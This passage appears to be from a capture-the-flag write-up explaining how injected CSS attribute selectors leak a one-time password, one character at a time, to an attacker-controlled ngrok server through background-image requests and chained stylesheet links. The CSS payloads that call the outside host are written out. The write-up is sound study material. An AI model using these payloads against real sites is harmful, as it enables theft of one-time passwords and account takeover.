 We still need a way to actually read the OTP off of the page. A key observation is that the OTP is stored in the `value` attribute of a element, rather than its text content. By reading about CSS selectors (https://www.w3schools.com/cssref/css_selectors.php), we can find that CSS can actually interact with element attributes somewhat. Namely, you can define a CSS rule that applies a style to an element only if a certain attribute contains some value.

The selector of interest is `[attribute^=value]`, which matches every element whose attribute value begins with `value`. So we can apply a style to an element only if it starts with a certain string. We could potentially use multiple of these selectors to determine what the first character of the OTP is. For example

```css
input[value^="a"] {}
input[value^="b"] {}
...
input[value^="Z"] {}
```

Only one of these selectors will actually match, depending on what the first character of the `input`'s `value` attribute is! So how do we exfilitrate which selector matched? Well, we can have each rule define a `background-image` for the element with a URL that points to our server and contains the matched character in the URL! For example, we could construct the CSS

```css
input[value^="a"] { background-image: url("https://...ngrok.com/capture/a") }
input[value^="b"] { background-image: url("https://...ngrok.com/capture/b") }
...
input[value^="Z"] { background-image: url("https://...ngrok.com/capture/Z") }
```

When loading the image, the browser will make a request to the respective URL containing the first character. This allows us to exfilitrate the first character.

### Exfiltrating the Remaining Characters

We still of course need to exfilitrate the remaining characters of the OTP. One idea is to modify our CSS once we know the first character so that we exfilitrate the second character. For example, say that we find the first character is `e`. Then we could check if the OTP starts with `ea`, `eb`, `ec`, etc. Such a playload could look like:

```css
input[value^="ea"] { background-image: url("https://...ngrok.com/capture/ea") }
input[value^="eb"] { background-image: url("https://...ngrok.com/capture/eb") }
...
input[value^="eZ"] { background-image: url("https://...ngrok.com/capture/eZ") }
```

We could then continue this process until we have exfiltrated all 12 characters. However, there is an issue: every time the page is loaded, the OTP changes. So, we cannot make multiple requests to the admin bot with different CSS payloads each time, as the OTP on the page would be different as well. Instead, we need to form **one** payload that somehow updates the pages style every time we have exfiltrated a new character.

To accomplish this, we need to take advantage of links. Stylesheets can be externally linked via a `<link rel="stylesheet" src="https://example.com/style.css" />` element, where the `src` is the URL to load the stylesheet from. So we can inject a `link` element in our advertisement that loads CSS from our server. In fact, we can actually include **many** link elements in our advertisement, one to exfiltrate each character.
